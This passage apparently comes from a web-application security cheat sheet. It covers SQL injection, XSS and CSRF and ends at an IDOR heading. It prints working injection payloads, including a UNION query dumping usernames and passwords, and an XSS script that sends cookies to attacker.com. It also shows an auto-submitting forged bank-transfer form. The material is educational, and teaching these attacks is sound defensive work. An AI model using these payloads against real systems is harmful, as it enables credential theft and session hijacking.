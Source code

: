 ```sql
-- Basic SQLi
' OR '1'='1

-- Union-based SQLi
' UNION SELECT username, password FROM users--

-- Time-based blind SQLi
' AND SLEEP(5)--

-- Boolean-based blind SQLi
' AND 1=1--
```

**Tools:**
- SQLMap
- jSQL Injection
- Havij

### 2. Cross-Site Scripting (XSS)

Injecting malicious scripts into web pages viewed by other users.

```html
<!-- Reflected XSS -->
<script>alert('XSS')</script>

<!-- Stored XSS -->
<img src=x onerror=alert('XSS')>

<!-- DOM-based XSS -->
<script>document.location='http://attacker.com/?c='+document.cookie</script>
```

**Types:**
- **Reflected XSS**: Payload in URL or form input
- **Stored XSS**: Payload stored in database
- **DOM-based XSS**: Client-side JavaScript vulnerability

### 3. Cross-Site Request Forgery (CSRF)

Forcing authenticated users to perform unwanted actions.

```html
<!-- CSRF attack example -->
<img src="http://bank.com/transfer?to=attacker&amount=1000">

<form action="http://bank.com/transfer" method="POST">
  <input type="hidden" name="to" value="attacker">
  <input type="hidden" name="amount" value="1000">
</form>
<script>document.forms[0].submit();</script>
```

### 4. Insecure Direct Object References (IDOR)
